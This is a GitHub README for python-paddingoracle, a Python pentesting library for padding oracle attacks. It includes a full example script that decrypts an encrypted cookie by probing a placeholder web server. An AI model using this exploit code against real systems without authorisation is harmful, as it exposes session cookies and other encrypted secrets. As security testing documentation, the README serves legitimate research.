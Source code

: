 python-paddingoracle: A portable, padding oracle exploit API
============================================================

UPDATED FOR PYTHON 3

python-paddingoracle is an API that provides pentesters a customizable
alternative to `PadBuster`_ and other padding oracle exploit tools that can't
easily (without a heavy rewrite) be used in unique, per-app scenarios. Think
non-HTTP applications, raw sockets, client applications, unique encodings, etc.

Usage:
------

To use the paddingoracle API, simply implement the **oracle()** method from the
PaddingOracle API and raise a **BadPaddingException** when the decrypter
reveals a padding oracle. To decrypt data, pass raw encrypted bytes to
**decrypt()** with a block size (typically 8 or 16) and optional iv parameter.

See below for an example (from `the example`_): ::

    from paddingoracle import BadPaddingException, PaddingOracle
    from base64 import b64encode, b64decode
    from urllib.parse import quote, unquote
    import requests
    import socket
    import time

    class PadBuster(PaddingOracle):
        def __init__(self, **kwargs):
            super(PadBuster, self).__init__(**kwargs)
            self.session = requests.Session()
            self.wait = kwargs.get('wait', 2.0)

        def oracle(self, data, **kwargs):
            somecookie = quote(b64encode(data))
            self.session.cookies['somecookie'] = somecookie

            while 1:
                try:
                    response = self.session.get('http://www.example.com/',
                            stream=False, timeout=5, verify=False)
                    break
                except (socket.error, requests.exceptions.RequestException):
                    logging.exception('Retrying request in %.2f seconds...',
                                      self.wait)
                    time.sleep(self.wait)
                    continue

            self.history.append(response)

            if response.ok:
                logging.debug('No padding exception raised on %r', somecookie)
                return

            # An HTTP 500 error was returned, likely due to incorrect padding
            raise BadPaddingException

    if __name__ == '__main__':
        import logging
        import sys

        if not sys.argv[1:]:
            print('Usage: %s <somecookie value>' % (sys.argv[0], ))
            sys.exit(1)

        logging.basicConfig(level=logging.DEBUG)

        encrypted_cookie = b64decode(unquote(sys.argv[1]))

        padbuster = PadBuster()

        cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

        print('Decrypted somecookie: %s => %r' % (sys.argv[1], cookie))


Credits
-------
python-paddingoracle is a Python implementation heavily based on `PadBuster`_,
an automated script for performing Padding Oracle attacks, developed by
Brian Holyfield of Gotham Digital Science.

.. _`the example`: https://github.com/mwielgoszewski/python-paddingoracle/blob/master/example.py
.. _`PadBuster`: https://github.com/GDSSecurity/PadBuster

